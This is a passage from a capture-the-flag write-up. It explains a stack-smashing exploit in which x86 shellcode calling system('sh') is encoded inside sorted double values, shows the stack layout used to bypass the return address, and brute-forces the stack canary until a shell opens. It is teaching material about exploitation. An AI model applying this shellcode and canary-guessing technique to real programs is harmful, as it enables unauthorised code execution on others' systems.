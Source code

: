 Those instructions are at most 5 bytes long. So we have one byte to bridge the  
execution to the next double value. This is not enough for a jump instruction,  
which would take two bytes. But we can just move an arbitrary constant to any  
unused register like `ebx`. This only takes 1 byte and uses the following 4  
bytes as an immediate that is irrelevant to what our shellcode does. The final  
shellocde looks like this (`x` marks the parts that will be interpreted as  
exponent and are therefore not arbitrary):

```nasm  
b8 ?? ?? ?? ??  mov eax, addr_of_sh  
bb xx xx .. ..  mov ebx, ignored  
50              push eax  
bb .. .. xx xx  mov ebx, ignored  
b8 ?? ?? ?? ??  mov eax, got[system]  
bb xx xx .. ..  mov ebx, ignored  
ff d0           call eax

addr_of_sh:     "sh\x00"  
```

The `sh\x00` string can be placed below our payload in a seperate double
value.

Putting it all together, after our attack runs, the stack looks like this:

```  
|ffffffff|ffffffff|ffffffff|ffffffff|ffffffff|ffffffff|eeeeffff|seeeeeee|  
| 1 byte | 1 byte | 1 byte | 1 byte | 1 byte | 1 byte | 1 byte | 1 byte |  
| --------------------    other stack variables    -------------------- |  
| --------------------           ...               -------------------- |      ...  
|   b8   |   ??   |   ??   |   ??   |   ??   |   bb   |   xx   |   xx   | stack_buffer[0]  
|   ..   |   ..   |   50   |   bb   |   ..   |   ..   |   xx   |   xx   | stack_buffer[1]  
|   b8   |   ??   |   ??   |   ??   |   ??   |   bb   |   xx   |   xx   | stack_buffer[2]  
|   ..   |   ..   |   ff   |   d0   |   ..   |   ..   |   xx   |   xx   | stack_buffer[3]  
|   's'  |   'h'  |   00   |   ..   |   ..   |   ..   |   xx   |   xx   | stack_buffer[4]  
| --------------------           ...               -------------------- |      ...  
|   ..   |   ..   |   ..   |   ..   |   ..   |   ..   |   xx   |   xx   | stack_buffer[63]  
|   ..   |   ..   |   ..   |   ..   |   ..   |   ..   |   xx   |   xx   | stack_buffer[64]  
|   ..   |   ..   |   ..   |   ..   |      stack canary (4 bytes)       | stack_buffer[65]  
|   ..   |   ..   |   ..   |   ..   |   addr of any `ret` instruction   | stack_buffer[66]  
|      addr off stack_buffer[0]     |   ..   |   ..   |   xx   |   xx   | stack_buffer[67]  
```

As you can see, we are free to insert into the `xx` bytes whatever we want  
and the shellcode stays the same. This is very useful as we need our code to  
be sorted in this exact order. To do so, we choose ascending exponents at the  
start and very high exponents at the last number. Now we run the exploit  
multiple times and try to get lucky with the stack canary. Because the value
of  
the stack canary is random, we have only a slim chance of having it being
sorted  
into the correct slot.

After about 80-100 tries, we finally got lucky and got a shell. We then just  
had to print the flag via `cat flag.txt`.
